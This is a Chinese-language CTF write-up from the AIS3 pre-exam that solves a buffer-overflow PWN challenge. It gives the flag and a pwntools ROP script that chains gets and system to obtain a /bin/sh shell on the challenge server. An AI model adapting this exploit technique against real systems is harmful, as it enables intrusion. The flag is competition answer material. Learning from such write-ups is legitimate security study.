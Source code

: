![](/assets/images/notes/CTF/ais3/1.jpg)

### Pre-exam

pre-exam後比較佛係解題，但不得不說，我非常喜歡這次的比賽，因為題目上沒有太多通靈，品質都很棒，而且都還蠻能學到很多不錯的技巧。覺得真的很有趣，沒有那種無聊開開chrome console就能解掉的題目，都要稍微想一下。整體非常享受比賽解題的過程。可惜因為期末加上很多事情要做，後面pre-exam沒辦法花太多時間弄QQ。不然覺得很多題目很值得花時間做。不過我覺得也太多大神參加這個比賽了吧＝＝。前幾名都被大神包辦....。

### Writeup

#### PWN

##### BOF

flag: `AIS3{OLd_5ChOOl_tr1ck_T0_m4Ke_s7aCk_A116nmeNt}` <br />
就是單純的buffer overflow，我是用ROP來疊gets的function，input /bin/sh字串後在呼叫systemplt來解，就可以rce。然後注意有stack alignment的問題，所以要再插入一個return。payload

```lang=c
from pwn import *

system_plt = p64(0x0000000000400570)
gets_plt = p64(0x0000000000400580)
puts_plt = p64(0x0000000000400560)
bss = p64(0x6010c0)
pop_rdi = p64(0x00000000004007a3)
ret = p64(0x0000000000400546)
r = remote("60.250.197.227",10000)

payload = flat(
	'a' * 48,
	ret,
	pop_rdi,
	bss,
	gets_plt,
	pop_rdi,
	bss,
	system_plt
)
```